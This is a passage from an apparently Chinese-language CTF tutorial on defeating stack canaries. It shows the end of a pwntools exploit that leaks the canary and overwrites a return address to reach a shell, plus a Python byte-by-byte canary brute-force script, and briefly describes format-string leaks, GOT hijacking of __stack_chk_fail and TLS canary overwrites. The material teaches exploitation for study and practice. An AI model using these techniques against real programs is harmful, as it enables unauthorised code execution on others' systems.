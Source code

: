 ```plain
io.sendline(payload)

io.recvuntil(b"A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell)
io.send(payload)

io.interactive()
```

同时其中还有一个格式化字符串漏洞，因为 canary 是加载到栈中的，那么通过格式化字符串的%p参数利用可以泄露出栈中的 canary 值

#### 爆破 Canary

对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的，并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。这是爆破的 Python 代码：

```plain
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```

#### 劫持 \_\_stack\_chk\_fail 函数

Canary 匹配失败后会进入到 `__stack_chk_fail` 函数，`__stack_chk_fail` 函数是一个普通的延迟绑定函数，可以通过修改其 GOT 表劫持这个函数从而使匹配失败后能够劫持其运行从而实现攻击。

#### 覆盖 TLS 中储存的 Canary 值

Canary 是储存在 TLS 结构体中的，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。

可以参考这篇文章：[TLS\_bypass\_Canary](https://xz.aliyun.com/t/13074?time__1311=mqmxnDBDuDcAiQQDsD7mN0%3DWG%3Dn5%2BDkkTrrD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fnode%2F23)
